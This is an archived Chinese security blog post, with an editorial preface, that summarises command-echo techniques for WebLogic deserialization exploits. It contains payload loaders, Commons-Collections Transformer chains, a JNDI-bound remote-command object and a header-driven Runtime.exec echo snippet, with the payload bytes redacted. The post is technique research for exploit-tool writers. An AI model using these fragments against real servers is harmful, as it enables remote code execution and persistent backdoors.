









# 第155篇：Weblogic反序列化漏洞的多种回显方法总结（上篇）

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Already working code execution/deserialization gadget, compatible JVM/classes, filesystem or JNDI-binding rights depending method
- 证据范围：Five reusable response techniques, not five independent vulnerabilities. Important compatibility limitations acknowledged, but examples are intentionally partial.

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Different URLClassLoader payloads do not change current JVM classfile compatibility; distinguish attacker runtime from target runtime
- Typo Weblogic12.2.30 and one-to-one product/JDK version assignments overgeneralized
- Payload byte arrays/base64/classes redacted, missing helper/source links
- Last try block incomplete; first branch base64-encodes output while second does not, contradicting uniform encoded-response description
- Decoding strips -/* instead of reversing substitutions; algorithm must be documented rather than assumed
- HTTP servlet-context echo requires HTTP processing, not arbitrary T3/IIOP thread
- Persistent JNDI binding/files require unbind/removal; no cleanup

### 操作风险与资料使用

- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

 嗨嗨安全   2026-02-02 12:41  
  
  
  
 Part1 前言   
  
大家好，我是ABC_123  
。最近在家养身体，于是静下心来把之前写的Weblogic反序列化漏洞利用工具的每一个EXP都仔细检查了一遍，把T3/IIOP回显过程中的遇到的一些坑点、知识点重新梳理总结了一下，今天分享出来，让编写Weblogic反序列化漏洞利用工具的朋友们少走弯路。  
  
  
  
  
 Part2 技术研究过程   
- Weblogic的EXP兼容性问题  
  
在编写weblogic反序列化工具的时候，除了改造各种EXP使其方便实战让人头疼之外，最让ABC_123头疼的就是不同JDK版本、不同Weblogic版本的兼容性问题：其一，  
Weblogic的T3/IIOP的各种反序列化漏洞EXP、通过Ldap注入不同版本的内存马等等，实在是太麻烦了；其二：  
从不同JDK版本的回显问题、不同环境的内存马写入问题、Ldap出网+内存马利用、XXE实体注入列目录等等，需要解决一系列兼容性问题。经过各种解决方法的试错之后，最终我还是退而求其次，把Weblogic工具的图形界面做成一个外壳，然后通过Java反射及URLClassLoader动态加载并调用不同JDK版本下编译的EXP程序；  
以适当增加软件体积为代价，换取对多 JDK 版本环境的良好兼容性  
。  
  
  
  
  
这里说的兼容性指的是：Weblogic 9.x版本是JDK1.5的、Wblogic10.3.6是JDK1.6的、Weblogic 12.2.30是JDK1.8的，这种 JDK 版本跨度较大的情况下，单一编译产出的 WebLogic 工具难以同时兼容新旧环境。  
###   
- ### 1. 基于URLClassLoader的Jar文件落地回显  
  
这段代码实现了将base64编码文件解码并写出到当前目录下的文件weblogic23231.log，接下来使用URLClassLoader 类动态加载这个log文件中的类。首先创建一个新的类加载器，传入新的 URL 数组，创建一个 file 协议的 URL指向本地的log文件，然后加载名为 weblogic.InitAppImpl 的类，并调用无参构造方法实例化对象。  
```
java.io.FileOutputStream f = new java.io.FileOutputStream("weblogic23231.log");
f.write(new sun.misc.BASE64Decoder().decodeBuffer("UEsDBAoAAAgAAUGAAAAAA....MAAwDHAAAAPA0AAAAA"));
f.close();
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("file:weblogic23231.log")}).
loadClass("weblogic.InitAppImpl").newInstance();
```  
  
  
最终构造函数里把这个对象 bind 进了 WebLogic 的 JNDI，从而让后续 T3 请求可以远程调用 runCmd()。  
```
InitAppImpl obj = new InitAppImpl("javax_ejb_eis_wjars");
Context ctx = new InitialContext();
ctx.bind("javax_ejb_eis_wjars", obj);
```  
  
  
###   
- ### 2. 基于字节数组写文件的URLClassLoader回显  
  
回显方式1是没问题的，但是实战过程中可能会出现不兼容的情况。new sun.misc.BASE64Decoder 这个用来解码base64，在高版本jdk不可访问，然后它的Base64编码功能有时候会存在一些问题，最终换成如下形式，用字节数组形式规避base64解码的问题。  
```
    byte[] payloadBytes = {80, 75, 3, 4, 10, 0, 0, 8, 0, 0, 34, 104,......, 0, -97, 15, 0, 0, 0, 0};
    java.io.FileOutputStream f = new java.io.FileOutputStream("dxxxxxxxxxx2.log");
    f.write(payloadBytes);
    f.close();
    java.net.URLClassLoader myClassLoader = new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("file:dxxxxxxxxxx2.log")});
    Class c = myClassLoader.loadClass("com.weblogic.xxxxx.xxxxxxxxxx");
    Object obj = c.newInstance();
    java.lang.reflect.Method method = c.getMethod("test", new Class[]{String.class});
    method.invoke(obj, new Object[]{"install"});

```  
  
  
  
  
以下是通过CC链实现的java反序列化过程中被动触发的利用链。  
  
  
  
  
具体执行原理和方法一差不多，但是做了一些改进，接口换成了Weblogic自带的 weblogic.cluster.singleton.ClusterMasterRemote，兼容性有了更进一步提高。具体为什么这样做，后续再给大家讲解。  
  
  
###   
- ### 3. 基于DefiningClassLoader内存类加载无文件落地回显  
  
前面几种方法都存在一个问题，就是有一个恶意的jar包文件落地；后续安全研究人员继续改进，使用了如下方式终于实现了无文件落地。Transformer 链构成了一个反射流水线，每个Transformer 的输出，作为下一个的输入。new ConstantTransformer(DefiningClassLoader.class) 可以在运行时定义新类的类加载器，new InvokerTransformer( "getDeclaredConstructor" 获取无参构造器，并由newInstance实例化类加载器，通过defineClass定义一个新类并获取main方法，并invoke调用main方法，new Object[]{null, new Object[]{bootArgs}})，中的null 说明调用的是静态方法。  
```
byte[] payloadBytes = new byte[]{-54, -2, -70, -66, 0, 0, 0, 50, 0, ....., 0, 119};
String className = "com.weblogic.jndi.ServerNamingsNode";
String[] bootArgs = {command};
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(DefiningClassLoader.class),
        new InvokerTransformer("getDeclaredConstructor", new Class[]{Class[].class}, new Object[]{new Class[0]}),
        new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[0]}),
        new InvokerTransformer("defineClass",
                new Class[]{String.class, byte[].class}, new Object[]{className, payloadBytes}),
        new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"main", new Class[]{String[].class}}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{bootArgs}}),
        new ConstantTransformer(new HashSet())};

```  
  
  
接下来使用我写的蓝队分析取证工具箱对byte[] payloadBytes部分进行反编译分析，可以看到大体的代码，与前面的方法不一样的是，这里是一个class文件，不是jar包形式的。  
  
  
  
  
这个方法也有问题，在Weblogic一些特定版本，不存在org.mozilla.classfile.DefiningClassLoader 这个类。  
  
- ### 4. 基于ClasspathClassLoader类加载回显  
  
前一种用的是第三方的 DefiningClassLoader#defineClass（Rhino）类实现的，后续研究人员又找到了 WebLogic 自己的 ClasspathClassLoader#defineCodeGenClass来实现回显，具体代码如下：  
```
byte[] payloadBytes = {-54, -2, -70, -66, ..., -76, 0, 0, 0, 2, 0, -75};
String className = "weblogic.xxxxxx";
String[] bootArgs = {command};

        final Transformer[] transformers = new Transformer[]{new ConstantTransformer(ClasspathClassLoader.class),
                new InvokerTransformer("getDeclaredConstructor", new Class[]{Class[].class}, new Object[]{new Class[0]}),
                new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[0]}),
                new InvokerTransformer("defineCodeGenClass", new Class[]{String.class, byte[].class, URL.class}, new Object[]{className, payloadBytes, null}),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"main", new Class[]{String[].class}}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{bootArgs}}),
                new ConstantTransformer(new HashSet())};

```  
  
  
  
  
同样使用蓝队分析取证工具箱对byte[] payloadBytes部分代码进行反编译分析，发现剩下的代码部分原理与方法3是差不多的。  
  
  
###   
- ### 5. 基于请求线程上下文与JavaScript引擎的命令回显  
  
前面几种方法，都是在Weblogic的JNDI树中绑定一个实例实现回显，后续研究人员又实现了调用Javascript引擎实现回显。如下代码获取构造器并实例化对象，然后获取 JavaScript 引擎并通过eval执行脚本代码。  
```
ReflectionExtractor extractor1 = new ReflectionExtractor(
            "getConstructor",
            new Object[]{new Class[0]}
    );

    ReflectionExtractor extractor2 = new ReflectionExtractor(
            "newInstance",
            new Object[]{new Object[0]}
    );

    ReflectionExtractor extractor3 = new ReflectionExtractor(
            "getEngineByName",
            new Object[]{"javascript"}
    );

    ReflectionExtractor extractor4 = new ReflectionExtractor(
            "eval",
            UtilsCMDAll.all(command)
    );
```  
  
  
回显代码我记得是从P牛博客上复制过来的。大致意思如下：首先从当前 WebLogic 的ExecuteThread 中获取正在处理请求的 WorkAdapter，根据不同 WebLogic 运行场景通过直接方式或反射方式取得 ServletRequest 和 ServletResponse；随后从 HTTP 请求头 cache 中读取数据，对其进行字符还原并 Base64 解码得到系统命令，使用 Runtime.exec() 在服务器上执行该命令，读取命令的标准输出结果，最后绕过标准 Servlet 流程将编码后的结果直接写入 HTTP 响应并返回给客户端，从而完成一次隐蔽的命令执行与回显。  
```
try {
    WorkAdapter adapter = ((ExecuteThread) Thread.currentThread()).getCurrentWork();
    if (adapter.getClass().getName().endsWith("ServletRequestImpl")) {
        String code = (String) adapter.getClass().getMethod("getHeader", String.class).invoke(adapter, "cache");
        if (code != null && !code.isEmpty()) {
            code = code.replace("-", "").replace("*", "");
            byte[] bytes = (new BASE64Decoder()).decodeBuffer(code);
            String result = new Scanner(Runtime.getRuntime().exec(new String(bytes)).getInputStream()).useDelimiter("\\A").next();
            result = new BASE64Encoder().encode(result.getBytes());
            ServletResponseImpl res = (ServletResponseImpl) adapter.getClass().getMethod("getResponse").invoke(adapter);
            res.getServletOutputStream().writeStream(new StringInputStream(result));
            res.getServletOutputStream().flush();
            res.getWriter().write("");
        }
    } else {
        Field field = adapter.getClass().getDeclaredField("connectionHandler");
        field.setAccessible(true);
        Object obj = field.get(adapter);
        obj = obj.getClass().getMethod("getServletRequest").invoke(obj);
        String code = (String) obj.getClass().getMethod("getHeader", String.class).invoke(obj, "cache");
        if (code != null && !code.isEmpty()) {
            code = code.replace("-", "").replace("*", "");
            byte[] bytes = (new BASE64Decoder()).decodeBuffer(code);
            String result = new Scanner(Runtime.getRuntime().exec(new String(bytes)).getInputStream()).useDelimiter("\\A").next();
            result = result.replace("/", "-").replace("+", "*");
            ServletResponseImpl res = (ServletResponseImpl) obj.getClass().getMethod("getResponse").invoke(obj);
            res.getServletOutputStream().writeStream(new StringInputStream(result));
            res.getServletOutputStream().flush();
            res.getWriter().write("");
        }
    }
```  
  
  
 Part3 总结   
  
1.  
    
未完待续，后续继续进行Weblogic内存马相关的代码分析。  
  
2.  
    
为了便于技术交流，现已建立微信群"  
希水涵-信安技术交流群  
"，欢迎您的加入。  
  
  
  
  
  
  
  
**公众号专注于网络安全技术分享，包括APT事件分析、红队攻防、蓝队分析、渗透测试、代码审计等，每周一篇，99%原创，敬请关注。**  
  
**Contact me: 0day123abc#gmail.com**  
  
**OR 2332887682#qq.com**  
  
**(replace # with @)**  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
